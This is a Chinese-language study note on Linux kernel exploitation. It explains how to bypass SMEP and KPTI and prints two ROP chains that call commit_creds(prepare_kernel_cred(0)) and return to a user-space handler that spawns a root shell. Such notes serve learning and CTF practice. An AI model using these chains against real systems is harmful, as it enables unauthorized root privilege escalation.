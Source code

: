 ```yaml
---
title: Linux Kernel Exploitation Tricks
date: 2024-09-19 10:54:10
tags: [Linux Kernel, 笔记]
categories: 
    - 笔记
---
```


跟着H0pe师傅学的[Kernel-Pwn](https://h0pe-ay.github.io/kernel-pwn/)，记录一下防忘

# 绕过SEMP
## 修改RC4
开启SMEP保护实际是将CR4寄存器的第20比特位置为1，native_write_cr4(size_t new_cr4)函数可以设置cr4寄存器的值
该方法在某次patch后不可用
## ROP
找Gadgets执行commit_creds(prepare_kernel_cred(0))然后swapgs，iretq返回用户态。
ROP Chain :
```C
    unsigned long payload[256];
    payload[index++] = canary;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0xffffffff81006370; //pop_rdi_ret
    payload[index++] = 0;
    payload[index++] = 0xffffffff814c67f0; //prepare_kernel_cred
    payload[index++] = 0xffffffff8150b97e; //pop_rsi_ret
    payload[index++] = 0;
    payload[index++] = 0xffffffff81006370; //pop_rdi_ret
    payload[index++] = 1;
    payload[index++] = 0xffffffff818c6b35; //add rsi, 1; cmp rsi, rdi; jne 0xac6b30; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0xffffffff8166fea3; //mov rdi, rax; jne 0x86fe73; pop rbx; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0;
    payload[index++] = 0xffffffff814c6410; //commit_creds;
    payload[index++] = 0xffffffff8100a55f; //swapgs; pop rbp; ret;
    payload[index++] = 0;
    payload[index++] = 0xffffffff814381cb; //iretq; pop rbp; ret;
    payload[index++] = (unsigned long)backdoor;
    payload[index++] = user_cs;
    payload[index++] = user_rflags;
    payload[index++] = user_sp;
    payload[index++] = user_ss;
```
## 栈迁移到mmapROP
通过pop rbp; ret; mov rsp, rbp; pop rbp; ret;这样的Gadgets将rsp设置位mmap开辟的地址，mmap内放ROP Chain。

# 绕过KPTI
KPTI将用户页和内核页隔离，内核页找不到用户页，反之同样。上述利用方法在iretq的时候都会用到到用户的backdoor地址，开启KPTI后内核就找不到这个地址了。
## 通过异常处理
注册一个异常处理的函数去捕获SIGSEGV信号，在捕获到该信号时执行异常处理函数，可自定义为system("/bin/sh")
```C
signal(SIGSEGV, backdoor);
```
## 通过swapgs_restore_regs_and_return_to_usermode
CR3用于存储页目录表（Page Directory Table）的物理地址。每个进程的CR3独立，内核与用户态进程都有独立的CR3，swapgs_restore_regs_and_return_to_usermode函数可以将CR3设置为用户态的。swapgs_restore_regs_and_return_to_usermode函数内部存在swapgs和iretq，只要将栈布置好就可以一把梭。
ROP Chain：
```C
	payload[index++] = canary;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0xffffffff81006370; //pop_rdi_ret
	payload[index++] = 0;
	payload[index++] = 0xffffffff814c67f0; //prepare_kernel_cred
	payload[index++] = 0xffffffff8150b97e; //pop_rsi_ret
	payload[index++] = 0;
	payload[index++] = 0xffffffff81006370; //pop_rdi_ret
	payload[index++] = 1;
	payload[index++] = 0xffffffff818c6b35; //add rsi, 1; cmp rsi, rdi; jne 0xac6b30; pop rbp; ret; 
	payload[index++] = 0;
	payload[index++] = 0xffffffff8166fea3; //mov rdi, rax; jne 0x86fe73; pop rbx; pop rbp; ret; 
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = 0xffffffff814c6410; //commit_creds;
	payload[index++] = 0xffffffff81200f10 + 22; //swapgs_restore_regs_and_return_to_usermode + 22;mov    rdi,rsp;
	payload[index++] = 0;
	payload[index++] = 0;
	payload[index++] = (unsigned long)backdoor;
	payload[index++] = user_cs;
	payload[index++] = user_rflags;
	payload[index++] = user_sp;
	payload[index++] = user_ss;
```
swapgs_restore_regs_and_return_to_usermode + 22是为了跳过函数前面的一堆pop。

